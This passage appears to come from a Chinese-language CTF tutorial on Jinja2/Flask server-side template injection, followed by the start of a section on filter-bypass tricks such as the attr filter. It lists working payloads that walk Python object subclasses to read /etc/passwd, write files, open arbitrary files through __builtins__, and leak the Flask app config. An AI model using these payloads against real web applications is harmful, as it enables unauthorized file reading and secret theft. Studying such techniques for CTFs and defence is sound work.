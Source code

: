 
#### 文件操作
```python
#python 2.7
# 文件操作
#  找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#python3.7 文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

# 框架相关文件读取
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
```



## 0x02 绕过姿势(持续更新~)
### 过滤器
对于过滤器的定义，官方解释如下：
![alt text](images/image23.png)

翻译过来就是：
> 变量可以通过过滤器进行修改，过滤器与变量之间用管道符号（|）隔开，括号中可以有可选参数。可以链接多个过滤器。一个过滤器的输出应用于下一个过滤器。\
> 例如，{{ name|striptags|title }} 将删除变量名中的所有HTML标记，并将title大小写为输出(title(striptags(name)))\
> 还有就是可以像是一个函数调用，例如`{{listx|join(',')}}`相当于`str.join(',',listx)`，将一个列表用`,`连接起来。

下面介绍几个常见的
#### attr
> Get an attribute of an object. `foo|attr("bar")` works like `foo.bar` just that always an attribute is returned and items are not looked up.
